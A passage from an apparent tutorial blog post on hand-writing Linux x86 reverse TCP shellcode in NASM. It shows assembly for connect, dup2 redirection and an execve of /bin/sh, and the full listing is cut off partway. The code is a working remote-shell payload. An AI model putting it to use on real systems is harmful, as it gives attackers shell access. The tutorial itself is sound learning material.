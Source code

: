 Finally, the connection can be made to the host, the file descriptors setup and the shell can be spawned. For more information on the latter two operations, refer to the previous post on [Creating a Bind Shell TCP Shellcode](/2018-09-04-creating-a-bind-shell-tcp-shellcode):

```nasm
; call connect(sockfd, sockaddr, socklen_t)
mov   ax, 0x16a
mov   ecx, esp
mov   edx, ebp
sub   edx, esp        ; $ecx: size of the sockaddr struct
int   0x80

; call dup2 to redirect STDIN, STDOUT and STDERR
xor   ecx, ecx
mov   cl, 0x3
dup:
xor   eax, eax
mov   al, 0x3f
dec   ecx
int   0x80
inc   ecx
loop  dup

; spawn /bin/sh using execve
; $ecx and $edx are 0 at this point
xor   eax, eax
xor   edx, edx
push  eax
push  0x68732f2f
push  0x6e69622f
mov   ebx, esp        ; [$ebx]: null terminated /bin//sh
mov   al, 0x0b
int   0x80
```

The final shellcode looks like this:

```nasm
global _start

section .text
  _start:
    ; set the frame pointer
    mov   ebp, esp

    ; clear required registers
    xor   eax, eax
    xor   ecx, ecx
    xor   edx, edx

    ; create sockaddr_in struct
    push  eax
    push  eax             ; [$esp]: 8 bytes of padding
    mov   eax, 0xffffffff
    mov   ebx, 0xfeffff80
    xor   ebx, eax
    push  ebx             ; [$esp]: 127.0.0.1
    push  word 0x5c11     ; [$esp]: 4444
    push  word 0x02       ; [$esp]: AF_INET

    ; call socket(domain, type, protocol)
    xor   eax, eax
    xor   ebx, ebx
    mov   ax, 0x167       ; $eax: 0x167 / 359
    mov   bl, 0x02        ; $ebx: AF_INET
```